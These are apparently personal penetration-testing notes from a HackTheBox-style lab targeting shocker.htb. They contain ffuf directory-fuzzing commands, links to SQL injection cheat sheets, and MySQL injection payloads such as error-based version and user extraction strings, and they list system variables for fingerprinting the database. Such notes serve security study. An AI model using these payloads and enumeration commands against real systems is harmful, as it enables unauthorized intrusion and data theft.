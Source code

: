 -----------
FFUF
-----------

Finding directories:

ffuf -c -r -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://shocker.htb/FUZZ/ 

-c : add color to output
-r : follow redirects
-t : timeout in seconds
-w : path to wordlist
-u : URL of website
-e .php,.asp,.html,.htmlx : extension

Finding cgi-bin directories:

ffuf -c -r -t 200 -e .txt,.php,.sh,.pl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://shocker.htb/cgi-bin/FUZZ/

---------
SQLi 
---------

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

https://www.mysqltutorial.org/mysql-cheat-sheet.aspx

https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet

============
SQLI MYSQL
============
MYSQL: 

bikes' and 1=0/@@version;-- 
bikes' and 1=0/user;-- 

@@version
@@innodb_version (THIS GIVES ONLY 5.5.62 NOT WHOLE STRING LIKE @@VERSION)
@@version_comment (Debian)
@@version_compile_os
@@vesion_compile_machine

@@hostname
@@secure_file_priv -> where we can load files 
@@system_time_zone 

database()
version()
user()

STORAGE ENGINE:
------------------
